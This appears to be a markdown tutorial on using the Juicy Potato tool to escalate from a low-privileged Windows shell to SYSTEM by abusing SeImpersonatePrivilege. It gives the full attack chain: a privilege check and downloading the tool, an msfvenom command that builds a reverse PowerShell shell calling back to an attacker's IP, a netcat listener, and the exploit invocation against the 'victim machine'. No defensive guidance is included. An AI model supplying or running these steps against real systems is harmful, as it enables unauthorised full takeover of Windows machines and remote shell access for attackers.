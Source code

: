 
# 🥔 Juicy Potato — Privilege Escalation via SeImpersonatePrivilege

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

### ✅ Requirements

- You already have **a shell** (or Meterpreter session) on the **target machine**
- The user must have the `SeImpersonatePrivilege` **enabled**

### 🧪 Step-by-Step Guide

### 1️⃣ Check User Privileges

On the target machine, run:

```bash
whoami /priv
```

Look for this line:

```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!
> 

### 2️⃣ Download Juicy Potato

Download the executable from:

👉 https://github.com/ohpe/juicy-potato

Rename it (for simplicity):

```bash
jp.exe
```

Copy it to the **victim machine**.

### 3️⃣ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:

```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```

Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.

Upload `myshell.bat` to the **victim machine**.

### 4️⃣ Start Netcat Listener

On your Kali machine:

```bash
nc -nlvp <Your_Port>
```

### 5️⃣ Run Juicy Potato Exploit

On the victim machine:

```bash
jp.exe -t * -p myshell.bat -l 4444
```

- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result

You should now get a **reverse shell as SYSTEM** on your Netcat listener!
